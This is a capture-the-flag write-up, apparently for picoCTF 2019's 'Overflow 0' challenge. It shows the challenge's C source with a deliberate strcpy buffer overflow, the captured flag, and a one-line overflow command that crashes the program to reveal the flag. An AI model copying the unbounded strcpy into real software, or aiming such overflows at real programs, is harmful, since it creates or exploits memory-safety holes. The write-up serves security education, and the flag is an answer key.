

# Binary Exploitation - Overflow 0 (100 points)

## Challenge

*This should be easy. Overflow the correct buffer in this program and get a flag. Its also found in /problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa on the shell server. Source.*



```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

## Flag

picoCTF{3asY_P3a5yd2b59a57}

## Walkthrough

The function void `vuln(char *input)` is vulnerable to a buffer overflow because *input* size is not controlled when strcopied in buf (which has a size of 128 bytes).

```C
void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}
```

If a segmentation fault occurs, corresponding signal will be catch resulting in the display of the flag:

```C
void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}
```

So all we have to do is to perform a big and dirty buffer overflow resulting in a seg fault to display the flag:

```bash
m3oow@pico-2019-shell1:/problems/overflow-0_2_20c7eb49602df3c04c1f43bf9aff1faa$ python -c "print('A' * 140)" | xargs ./vuln
picoCTF{3asY_P3a5yd2b59a57}
```